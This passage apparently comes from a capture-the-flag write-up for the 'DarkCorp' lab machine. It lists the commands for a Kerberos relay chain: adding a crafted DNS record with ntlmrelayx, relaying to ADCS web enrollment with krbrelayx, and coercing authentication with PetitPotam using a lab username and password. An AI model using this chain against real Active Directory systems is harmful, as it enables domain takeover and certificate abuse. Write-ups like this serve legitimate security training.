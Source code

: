 First of all lets start with add dnsrecord

```bash
sudo ntlmrelayx.py -t ldap://172.16.20.1 -smb2support --no-dump --no-da --no-acl --no-validate-privs --add-dns-record 'DC-011UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' '10.10.14.11'
```
![alt text](../assets/images/ezgif-5e6e08f9c361ae.gif)

**WHEN ITS DONE DOWN NTLMRELAY AND RUN KRBRELAY NOW** !!!!

https://github.com/dirkjanm/krbrelayx

```bash
python3 krbrelayx.py -t 'https://dc-01.darkcorp.htb/certsrv/certfnsh.asp' --adcs -v 'WEB01$'
```

and now run petiptpotam

https://github.com/topotam/PetitPotam

```bash
python3 PetitPotam.py -u victor.r -p 'victor1gustavo@#' -d darkcorp.htb 'dc-011UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' web-01
```

![alt text](../assets/images/darkcorp27.png)
